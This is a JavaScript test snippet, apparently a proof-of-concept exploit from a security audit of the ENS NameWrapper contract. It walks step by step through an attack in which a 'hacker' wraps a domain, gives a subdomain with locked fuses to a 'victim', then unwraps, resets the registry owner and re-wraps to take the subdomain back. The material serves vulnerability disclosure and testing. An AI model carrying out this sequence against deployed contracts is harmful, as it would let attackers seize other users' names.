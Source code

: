 ```javascript
      const label = 'register'
      const labelHash = labelhash(label)
      const wrappedTokenId = namehash(label + '.eth')

      // register a 2LD domain for the hacker
      await NameWrapper.registerAndWrapETH2LD(
        label,
        hacker,
        86400,
        EMPTY_ADDRESS,
        CAN_DO_EVERYTHING,
        MAX_EXPIRY
      )
      expect(await BaseRegistrar.ownerOf(labelHash)).to.equal(
        NameWrapper.address
      )
      expect(await EnsRegistry.owner(wrappedTokenId)).to.equal(
        NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedTokenId)).to.equal(hacker)

      // hacker signed a submomain for a victim user
      const subLabel = 'hack'
      const subLabelHash = labelhash(subLabel)
      const wrappedSubTokenId = namehash(subLabel + '.' + label + '.eth')
      await NameWrapperH.setSubnodeOwner(
        wrappedTokenId,
        subLabel,
        victim,
        PARENT_CANNOT_CONTROL,
        MAX_EXPIRY
      )
      expect(await EnsRegistry.owner(wrappedSubTokenId)).to.equal(
          NameWrapper.address
      )
      expect(await NameWrapper.ownerOf(wrappedSubTokenId)).to.equal(victim)
      expect(
          (await NameWrapper.getFuses(wrappedSubTokenId))[0]
      ).to.equal(PARENT_CANNOT_CONTROL)

      // the user sets a very strict fuse for the wrappedSubTokenId
      await NameWrapperV.setFuses(wrappedSubTokenId, 127 - PARENT_CANNOT_CONTROL) // 63
      expect((await NameWrapper.getFuses(wrappedSubTokenId))[0]).to.equal(127)

      // the hacker unwraps his 2LD token
      await NameWrapperH.unwrapETH2LD(labelHash, hacker, hacker)
      expect(await BaseRegistrar.ownerOf(labelHash)).to.equal(hacker)
      expect(await EnsRegistry.owner(wrappedTokenId)).to.equal(hacker)

      // the hacker setSubnodeOwner
      await EnsRegistryH.setSubnodeOwner(wrappedTokenId, subLabelHash, hacker)
      expect(await EnsRegistry.owner(wrappedSubTokenId)).to.equal(hacker)

      // the hacker re-wrap the sub node
      await EnsRegistryH.setApprovalForAll(NameWrapper.address, true)
      await NameWrapperH.wrap(
          encodeName(subLabel + '.' + label + '.eth'),
          hacker,
          EMPTY_ADDRESS
      )

      ///////////////////////////
      // Attack successed!
```